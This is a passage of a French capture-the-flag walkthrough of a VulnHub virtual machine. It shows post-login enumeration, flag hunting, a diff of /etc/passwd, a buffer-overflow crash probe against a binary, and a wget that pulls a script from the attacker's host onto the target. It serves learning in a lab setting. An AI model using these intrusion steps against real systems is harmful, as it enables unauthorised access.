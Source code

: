 ```console

Dolores@ubuntu:~$ sudo -l
sudo -l
[sudo] password for Dolores: loop

Sorry, user Dolores may not run sudo on ubuntu.
```

Au gré de nos pérégrinations sur le serveur, on finit par trouver un nouveau flag situé dans le répertoire ```/srv/ftp``` qui est en lecture/écriture/exécution pour tous, et la trace d'un ancien compte Unix, ```eugene```, supprimé depuis. Mais quid du deuxième compte Arnold ? Quid de la deuxième machine Windows XP Professional ? Quid des deux autres flags situés dans le binaire ```hackme.o``` ? [Quid nullam malesuada rutrum tortor in convallis ?](https://fr.wikiquote.org/wiki/Kaamelott/Loth)

```console
Dolores@ubuntu:~$ cat /etc/vsftpd.user_list 
mrrobot

Dolores@ubuntu:~$ find / -maxdepth 4 -name "flag*" -print 2>/dev/null
/home/Dolores/flag.pdf
/home/Arnold/flag
/srv/ftp/flag

Dolores@ubuntu:~$ cat /home/Arnold/flag
<--flag: The piano doesn’t murder the player if it doesn’t like the music.-->

Dolores@ubuntu:~$ cat /srv/ftp/flag
OK you find me

Dolores@ubuntu:~$ diff /etc/passwd /etc/passwd-
40a41
> eugene:x:1000:1000:Yuqing Wang,,,:/home/eugene:/bin/bash
```

Après plusieurs heures de remue-méninges, une nouvelle piste est envisagée : ```hackme.o``` semble vulnérable à un [_buffer overflow_](https://beta.hackndo.com/buffer-overflow/). Cependant, à la lecture du résultat fourni par le script [__checksec.sh__](https://github.com/slimm609/checksec.sh), est-ce vraiment la bonne voie à emprunter pour résoudre ce challenge ?

```console
Dolores@ubuntu:~$ python3 -c 'print("A" * 4071)' | ./hackme.o
It seems you have made some progress, be aware of what you type in this console. Robots may awake!
Watch, watch me pushing my dagger into your heart. Death is inevitable!--Maeve

Dolores@ubuntu:~$ python3 -c 'print("A" * 4072)' | ./hackme.o
It seems you have made some progress, be aware of what you type in this console. Robots may awake!
Segmentation fault (core dumped)

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...

Dolores@ubuntu:~$ wget -q http://192.168.56.102:8000/checksec.sh

Dolores@ubuntu:~$ chmod +x checksec.sh

Dolores@ubuntu:~$ ./checksec.sh -f hackme.o
RELRO       STACK CANARY  NX          PIE          RPATH     RUNPATH     Symbols     FORTIFY  Fortified  Fortifiable FILE
Full RELRO  Canary found  NX enabled  PIE enabled  No RPATH  No RUNPATH  69 Symbols  Yes      0          4           hackme.o
```

À suivre... [2020: la VM a depuis été retirée de VulnHub car il s'avère qu'elle est incomplète]